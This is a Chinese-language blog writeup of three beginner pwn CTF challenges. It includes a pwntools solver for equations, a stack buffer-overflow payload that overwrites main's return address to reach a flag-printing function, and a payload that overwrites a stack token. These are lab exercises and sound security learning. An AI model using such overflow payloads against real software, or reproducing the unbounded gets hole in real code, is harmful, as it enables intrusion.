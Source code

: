 ```yaml
---
layout: post
title:  "Pwn CTF Writeup"
date:   2021-01-29 14:41:44 +0800
tags: CTF Writeup
color: rgb(255,90,90)
cover: '/assets/pwn-ctf/cover.png'
subtitle: 'Pwn-CTF Writeup'
---
```

**Intro：**
  : 一個高中生的CTF練習 剛好是我想要學習的PWN所以就跟著高中生一起嗨ＯＵＯ
  : 由於過了一段時間，所以題目順序就～隨性
  : 題目有少...也就算惹ＸＤ

**Problems：**
- TOC
{:toc}

# Math Teacher
[**Source File**](/assets/pwn-ctf/math-teacher/source){:target="_blank"}

## Discription
{: .no_toc}
- 這題簡單的考你會不會用 pwntools 
- 問100題二元一次方程式，解完就有FLAG

## Solution
{: .no_toc}
- 用克拉馬公式

``` python
def cal():
    f1 = r.recvline()
    f2 = r.recvline()

    print("Function 1: ", f1)
    print("Function 2: ", f2)

    a1 = int(f1[:f1.find(b'x')-3])
    b1 = int(f1[f1.find(b'+')+1:f1.find(b'y')-3])
    c1 = int(f1[f1.find(b'=')+1:])

    a2 = int(f2[:f2.find(b'x')-3])
    b2 = int(f2[f2.find(b'+')+1:f2.find(b'y')-3])
    c2 = int(f2[f2.find(b'=')+1:])

    delta = a1*b2-a2*b1

    if delta == 0:
        x = 0
        y = int(c1/b1)
    else:
        x = int((c1*b2-b1*c2)/delta)
        y = int((a1*c2-c1*a2)/delta)

    r.recvuntil('= ')
    r.sendline(str(x))
    r.recvuntil('= ')
    r.sendline(str(y))
```

# Go Home
[**Source File**](/assets/pwn-ctf/go-home/source){:target="_blank"}

## Discription 
{: .no_toc}
- 先是問你有沒有 Home

  ```shell
  Billy want to go home now.
  Do you know the address of his house ?
  ```
- SourceFile 又有給 Home

  ``` c
  void Billyshouse(){
    system("cat /home/ctf/flag");
  }
  ```

- `<main>` 的 stack長度 $\gt$ `gets` 能輸入的長度
    ![](/assets/pwn-ctf/go-home/discription-0.png)

\* $\color{red}{\text{0x20} \lt \infty}$ (gets 輸入長度沒有限制)
{: .notify}

## Solution
{: .no_toc}
- 簡單的 **Bof** 蓋過 `<main>` 的 `ret`

這邊有兩個要注意的地方
{: .notify}
  1. ubuntu 20 以後的 stack 對齊
    : 就是蓋過 `ret` 之後跳進 function 裡面的時候stack結尾必須是0x0不能是0x8
  2. `gets` 預設從 `$rbp - 0x20` 開始寫
    : 也就是 ```OFFSET = 0x20 + 0x8```{: .language-ruby}

## Payload
{: .no_toc}
- 1.要跳過的方法有很多，最簡單的就是不要跑 [**Function Prologue**](https://en.wikipedia.org/wiki/Function_prologue) 讓 stack 多了 `0x8` 就好 -> 直接跳到 `0x4006ca`  (<Billyshouse + 0x4>)

```python
payload = b'A'*0x28 + p64(exe.symbols['Billyshouse']+0x4)
```

# Pass
[**Source File**](/assets/pwn-ctf/pass/source){:target="_blank"}

## Discription 
{: .no_toc}

- 要讓`token = 0xdeadbeef`{: .language-python}
  ![](/assets/pwn-ctf/pass/discription-1.png)
- `<main>` 的 stack 大小為 `0x20`{: .language-python}
  ![](/assets/pwn-ctf/discription-2.png)
- 用 `read` 但有限定大小，但大小可以蓋過token
  ![](/assets/pwn-ctf/pass/discription-0.png)

## Solution
{: .no_toc}

- 計算 `OFFSET = 0x20 - 0x4`{: .language-ruby} 就會是 `token` 的位置

## Payload
{: .no_toc}

```python
payload = b'A'*(0x20 - 0x4) + p32(0xdeadbeef)
```


# To be done...
